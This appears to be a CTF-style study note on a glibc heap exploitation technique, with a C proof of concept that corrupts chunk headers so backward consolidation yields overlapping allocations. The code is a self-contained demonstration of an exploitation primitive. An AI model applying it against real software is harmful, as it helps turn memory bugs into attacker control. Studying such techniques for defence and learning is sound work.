 <details>
<summary><strong>Description</strong></summary>
<p>

so in this instance, we will again be using backwards consolidation to allocate overlapping chunks (multiple ptrs to the same spot without freeing the chunk)...

**however, this differs from the previous example**. We will be leveraging existing chunks, and editing their chunk headers to accomplish this (no create fake chunk/main_arena -> no required heap leak)...

> this may be more useful in certain CTF...

</p>
</details>

<details>
<summary><strong>POC</strong></summary>
<p>

> compiled with glibc `2.35`, `2.38` and `2.39`

```c
#include <stdio.h>
#include <stdlib.h>

void main() {

    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long *chunk0, *chunk1, *chunk2, *chunk3, *first_consolidated_chunk, *overlapping_chunk;

    chunk0 = malloc(0x420);
    chunk1 = malloc(0x420); // this chunk will be reallocate without free...
    chunk2 = malloc(0x420); // backward consolidate chunk2 into chunk0
    chunk3 = malloc(0x18); // padding chunk to prevent consolidate with top chunk

    free(chunk0); // prepare a unsortedbin

    /*VULNERABILITY*/
    chunk0[-1] = 0x860; // expand chunk0's size (encompass first two chunks)
    chunk2[-1] = 0x430; // turn off prev_inuse bit of chunk2's size field
    /*VULNERABILITY*/

    chunk2[-2] = 0x860; // set chunk2's prev_size field (equal to fake chunk0's size) 

    free(chunk2); // trigger consolidation
    first_consolidated_chunk = malloc(0x420); // can padding this depend on purpose
    overlapping_chunk = malloc(0x420); // is the same as chunk1

    printf("first chunk allocated from consolidated chunk: %p\n", first_consolidated_chunk);
    printf("overlapping chunk: %p\n", overlapping_chunk);
    printf("chunk1 (still in use): %p\n", chunk1);
}
```

</p>
</details>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://github.com/guyinatuxedo/Shogun/blob/main/pwn_demos/malloc/overlapping_consolidation/readme.md

</p>
</details>